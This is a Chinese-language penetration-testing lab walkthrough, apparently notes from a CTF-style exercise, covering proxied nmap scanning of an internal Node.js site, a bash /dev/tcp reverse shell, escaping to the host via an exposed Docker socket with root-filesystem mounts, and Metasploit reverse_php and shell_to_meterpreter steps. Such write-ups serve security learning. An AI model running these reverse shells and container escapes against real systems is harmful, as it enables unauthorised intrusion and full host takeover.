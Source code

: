 proxychains nmap -sT -sV -Pn -n -p8022 172.18.0.3
8022/tcp open  http    Node.js Express framework

可看到这是Node.js的站，开放了8022端口！


火狐浏览器：FoxyProxy 加入：socks5代理并选择访问：
http://172.18.0.3:8022/
可以执行命令，反弹到本地：

nc -vlp 9988
bash -i >& /dev/tcp/192.168.253.138/9988 0>&1


启动容器：

cd run
srw-rw----  1 root  mysql    0 Mar 26  2022 docker.sock
drwxrwxrwt  2 root  root  4096 Jul 23  2017 lock
drwxrwxrwx  2 mysql mysql 4096 Mar 26  2022 mysqld
-rw-rw-r--  1 root  utmp     0 Jul 23  2017 utmp

发现docker容器的拉取文件！remote API未授权访问

参考：

apt-get update
apt-get install curl
curl -fsSL get.docker.com -o get-docker.sh
sh get-docker.sh

docker ps   ---会看到三个客户端
docker run -it --rm -v /:/vol wordpress /bin/bash
网络太卡了！！！


直接在kali本地运行：
docker run -it --rm -v /:/vol wordpress /bin/bash


或者：
docker run -it --rm -v /:/vol wordpress /bin/bash
参考链接：https://fosterelli.co/privilege-escalation-via-docker.html

docker run -v /:/host -t -i bash

==============================================================

MSF进行渗透！！！！

use exploit/multi/handler
set payload php/reverse_php
set lhost 192.168.253.138
set LPORT 1234
exploit -j

获得稳定shell，但是在容器中！

use post/multi/manage/shell_to_meterpreter
set session 1
run
